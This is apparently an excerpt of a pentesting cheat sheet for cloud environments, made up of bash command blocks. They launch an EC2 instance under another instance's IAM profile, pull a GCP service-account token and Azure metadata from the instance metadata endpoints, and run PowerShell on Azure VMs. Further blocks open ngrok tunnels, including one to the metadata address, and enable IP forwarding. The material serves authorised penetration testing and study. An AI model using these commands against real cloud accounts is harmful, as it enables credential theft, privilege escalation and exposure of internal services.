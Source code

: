 ```bash

# get ec2 instance ids and iam instance profiles arn's
aws ec2 describe-instances --profile [profile] --query 'Reservations[].Instances[]' | jq '.[] | "\(.InstanceId) :: \(.IamInstanceProfile.Arn)"' | grep -v null

# launching a new ec2 instance with the instance profile of another ec2 instance
ARN="[ARN-OF-TARGET-EC2-INSTANCE-PROFILE]"
SubnetId="subnet-0ca23ae417686dd98"
GroupId="sg-00eebb34bb8fe072e"
aws ec2 run-instances --image-id 'ami-00a208c7cdba991ea' --iam-instance-profile Arn=$ARN --key-name [key_name] --subnet-id $SubnetId --security-group-ids $GroupId --output table --profile [profile]
### GCP Pentesting
```bash
# retrieve instance token - the HTTP header ``Metadata-Flavor: Google`` must be specified!
curl -s http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token -H 'Metadata-Flavor: Google' | jq
```
### Azure Pentesting
```bash
# login 
az login

# execute powershell in VM
az vm run-command invoke --command-id RunPowerShellScript --name <vm-name> -g <resource-group> --scripts @<ps-script-name> --parameters "arg1=foo1" "arg2=foo2"

# retrieve metadata
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2020-09-01" | jq
```
### Ngrok Cloud Tunneling
```bash
# Go here to download Ngrok binary: https://dashboard.ngrok.com/get-started/setup

# provide API token to use
ngrok auth '<TOKEN>'

# ------ HTTP ------
# create HTTP tunnel
ngrok http <port-to-tunnel-to> # yes it's that simple!!!

# create a password protected HTTP tunnel
ngrok http -auth="username:password" 8080

# forward tunnel to a web server on a different machine
ngrok http 169.254.169.254:8080

# ------ TCP ------
# create TCP tunnel
ngrok tcp <port-to-tunnel-to>

# expose SSH server listening on local port 2222
ngrok tcp 2222
```
### Iptables NAT Forwarding
```bash
# temporary routing
sudo sysctl net.ipv4.ip_forward=1

# permanent routing
echo "net.ipv4.ip_forward = 1" >> /etc/sysctl.conf

```